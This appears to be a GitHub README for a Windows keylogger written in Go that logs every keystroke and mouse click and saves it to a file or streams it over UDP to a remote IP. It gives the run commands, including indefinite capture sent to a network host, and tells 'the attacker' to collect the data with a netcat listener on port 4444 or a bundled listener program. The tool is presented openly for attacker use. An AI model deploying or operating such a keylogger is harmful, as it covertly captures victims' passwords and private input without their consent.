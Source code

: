 # Go-Keylogger

This project is a keylogging tool written in the Go language intented to work on the Windows 10 OS. It is able to log all key strokes and mouse clicks, and and save logs to a file or send data using UDP to a given IP address. This is done using only Go's standard libraries.

# Usage

Run keylogger.exe on the command line with three command line arguments. The format is as follows:

```.\keylogger.exe [mode] [info] [duration]```

* Mode: Either 0 or 1, 0 for save to given file, and 1 for send to given IP address
* Info: If the mode is 0, this is used to provide a file name/path. If the mode is 1, this is used to provide an IP address.
* Duration: Number of seconds to run for. If -1, the application will run indefinitely until manually terminated.

For intance, to run for 60 seconds and save the data to a file called "log.txt", it should be:

```.\keylogger.exe 0 log.txt 60```

To run indefinitely and send to the host at 192.168.1.1, it should be:

```.\keylogger.exe 1 192.168.1.1 -1```

# Listening

When in sending logged keystrokes to a remote host on the network, the attacker needs to listen on that machine on port 4444 for the data being sent.

* On Linux, this can be done very easily with netcat.

```nc -ulp 4444```

* On Windows, it may be easier to use listener.exe from listener.go from this repository.

```.\listener.exe```

This will listen indefinitely on port 4444 for the data being sent and will output it to stdout.
